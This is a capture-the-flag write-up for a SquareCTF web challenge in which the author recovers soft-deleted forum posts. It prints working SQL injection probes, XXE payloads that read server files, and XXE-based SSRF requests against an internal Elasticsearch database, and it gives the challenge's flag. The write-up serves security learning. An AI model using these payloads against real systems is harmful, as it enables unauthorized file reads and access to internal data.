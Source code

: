 # Challenge link
URL:      [http://184.72.87.9:8013/](http://184.72.87.9:8013/) (maybe the server was shut down)

# Challenge description
This website is a forum where people can make posts, though it's so broken right now that you can probably only search them. It turns out that someone posted something top secret and later deleted it, but was it truly deleted?

# Challenge source file
Blackbox (No source)

# Difficulty
Above medium

# Approach
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/15d6d767-9590-4297-8967-8f4355818cd2)

- First I tried to input 'a' into the search box and search:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/20e906f9-3c77-45d3-bf45-5a81a912b2f1)

- Maybe the web app is vulnerable to SQLi, so I also tried to inject *' or 1=1--*, and I found that the results' order was changed:
- ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/ccd0e751-9cd9-461a-9ed8-d90121a6ed72)

- I should check with *' or 1=2--* to ensure that it was SQLi, but the results stay the same (?). Maybe the database they use is not SQL.
- If you read the results' messages, you can find some hints:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/007f8faa-8437-4774-8574-1498b4c5b90d)

- Hackerman said that he should try another way to access the db. Since I'm not as skilled as him, let's follow his idea.
- If you view-source by CTRL + U, you will see this:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/562b78a0-ec5e-4733-bba1-8ecacc74b549)

- It's a hidden path here, so let's check it. A page for posting messages appeared. Input something and send it:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/2757d2f7-8538-49f6-be6e-a0e78b20a322)

- I also checked for cookies but found nothing. This time Burp Suite is a good choice to analyze requests. I found a request that contains an XML payload:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/1be00fcb-3876-43bc-ab7c-67eae6d8fd2b)

- If this is the only way to react to the db, an XXE attack must be performed. So, let's send it to Repeater:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/0da9ae3b-08a9-4c4c-8311-29282f297a6f)

- The original payload:
  ```
  <?xml version="1.0" encoding="UTF-8" standalone="no"?><post author="CTF Participant" id="0" title="wee"><message>ew</message></post>
  ```
- I modified the payload so that I can read the file from the server:
  ```
  <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "file:///">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
  ```
  Then send a request and see the result:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/2cbe6e68-7b62-4ab4-a73b-163bfe71ef37)

- Successfully in reading files, now attack phases.
# Problem-solving
  ## Find the type of database
  - Because they use a db and I don't know what type of db they used, I should take a look at the source file. First with the challenge source file (used file path: file:///JustGoAround/src/main/resources/):
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/465dc83b-e273-4403-b5c6-46ae238a1fd9)

  - Usually, *application.properties* is a file that contains the data about server, db version, ... so I read it:
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/b210a267-90a3-42d6-9931-f43545f813db)

    ```
    spring.datasource.url=http://${ELASTIC_HOST:db}:9200
    ```
    
  - According to the information, the server uses something called *spring* and *Elastic*. Since I don't know anything about it, let's search.

  ## Information gathering
  - When I search Google, I found these two useful articles:
    [Spring Framework](https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/overview.html)
    [Elasticsearch](https://logz.io/blog/elasticsearch-tutorial/)
    
  - Looks like we have nothing to do with the framework, the remaining one is Elasticsearch. According to the article, it is a NoSQL database. It's more interesting for you to know that it has a feature called *soft delete*. It means that the deleted records still remain in the database but you cannot see it normally.
    [Soft delete in Elasticsearch](https://www.elastic.co/guide/en/elasticsearch/reference/current/index-modules-history-retention.html)

  - The key is here. We know that the admin deleted the flag from the database, but maybe it was just a soft delete. Maybe, the record is still in the database, and I need to access the database. But how?

  ## Accessing database
  - There is no way that we can access the db from the front end, the only way is access via the server. The good news is that XXE not only accesses local server files but also can perform HTTP requests from inside it. I cannot access the db, but if I am the admin, why can't I?
  ## Server Side Request Forgery attack
  - The first thing that appeared in my mind was to fake a request and send it to the database. This can be achieved by sending an HTTP request via XXE. Because this request is from the server, the database "trusts" it and accept the request.
  - I changed the payload to perform an SSRF attack and sent it via Repeater:
    ```
    <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "http://db:9200">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
    ```
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/ecf0fc25-5641-4af0-8edb-6e951269a8ca)

  - It works!!! The reason for HTTP://db:9200/ is according to *application.properties* as I mentioned above:
    ```
    spring.datasource.url=http://${ELASTIC_HOST:db}:9200
    ```
    The *${ELASTIC_HOST:db}* part means that by default, the hostname would be *db* if *ELASTIC_HOST* was not implemented by the server admin. 9200 was the port of the database for us to access.

  - The mission here is to read the deleted records. Since I didn't know the syntax of the Elasticsearch query, I asked ChatGPT. There are some queries that I used to finish the challenge:
    For listing the table names:
    ```
    http://db:9200/_cat/indices?v
    ```
    For searching the deleted records:
    ```
    http://db:9200/index_name/_doc/1
    ```
  - So my payloads are:
    ```
    <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "http://db:9200/_cat/indices?v">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
    ```
    Result:
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/ec74a701-52f9-4f4f-861d-2a18c960792d)

    There is a table indexed as 'posts' and has 3 docs.deleted, so the flag must be in here.
    ```
    <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "http://db:9200/posts/_doc/1">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
    ```
    Result:
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/12c9ede5-914f-4660-ab2d-39d20e99e161)

  - Flag: flag{tHISiSapRIVATEpOSTdONTlOOK}

  - Note: Don't worry if you spend hours getting stuck with the server's files. I brute-forced all the files inside it before thinking that there is another way to do this challenge :))))
